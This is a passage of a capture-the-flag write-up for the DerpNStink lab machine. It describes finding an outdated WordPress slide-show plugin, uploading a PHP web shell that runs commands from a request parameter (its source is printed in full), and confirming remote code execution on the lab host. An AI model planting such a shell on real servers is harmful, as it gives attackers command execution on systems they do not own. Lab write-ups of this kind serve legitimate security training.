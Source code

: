 The slide-show plugin installed is outdated as shown by wpscan
![](/assets/img/vuln-dirpnstink/20210430232459.png)

I uploaded php script that would take parameter from user and execute system commands on it.

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

After uploading the php script, I browsed to ``` http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/cmd.php``` to execute the php script and verify rce with ```id``` command.

![](/assets/img/vuln-dirpnstink/20210501121154.png)

## Foothold

There are 2 users in the machine ```stinky, mrderp``` 

![](/assets/img/vuln-dirpnstink/20210501122133.png)
